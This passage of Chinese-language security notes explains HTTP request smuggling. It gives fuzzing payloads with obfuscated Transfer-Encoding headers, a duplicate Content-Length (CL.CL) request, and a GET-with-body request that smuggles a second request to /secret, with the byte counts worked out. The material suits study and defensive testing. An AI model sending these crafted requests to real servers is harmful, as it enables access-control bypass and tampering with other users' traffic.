 fuzz用payload，根据实现RFC的不同而有细微的差别

```
Transfer-Encoding: xchunked

Transfer-Encoding[空格]: chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[空格]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

#### CL.CL

请求包中包含两个不同值得`Content-Length`，根据RFC7230会返回400，但是有可能服务器并没有严格遵守这个规范

```http
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

a会被带入下一个请求，变为`aGET / HTTP/1.1\r\n`

#### CL in GET

前端服务器允许GET携带body，后端不允许GET携带body 并直接忽略GET请求中的`Content-Length`标头，基于pipeline机制认为这是两个独立的请求（类似Nodejs中的cve-2018-12116）

```http
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 41\r\n
\r\n
GET /secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

后端认作两个独立的请求，这里格外注意CL值得计算22+19=41（分别len一下

```
GET /secret HTTP/1.1\r\n	-->	20个字符+CRLF = 22
Host: example.com\r\n	-->	17个字符+CRLF = 19
```
